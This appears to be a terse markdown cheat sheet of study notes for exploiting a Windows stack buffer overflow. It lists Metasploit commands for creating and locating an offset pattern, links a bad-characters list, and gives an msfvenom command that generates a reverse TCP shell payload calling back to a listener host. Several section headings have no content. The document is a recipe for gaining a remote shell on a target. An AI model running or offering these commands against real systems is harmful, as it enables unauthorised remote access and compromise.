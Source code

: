 
### spiking
### fuzzing


- Create Pattern:
```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 223

msf-pattern_create  -l 223
```

### Find Offset

```
msf-pattern_offset  -l 3000 -q 386F4337

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
```

### Overwrite the EIP
### Find Bad Characters
https://github.com/cytopia/badchars

### Finding the right module
### Generating Shellcode
```
msfvenom -p  windows/shell_reverse_tcp LHOST=192.168.0.2 LPORT=4444 EXITFUNC=thread -f c -b "\x00" -a x86
```

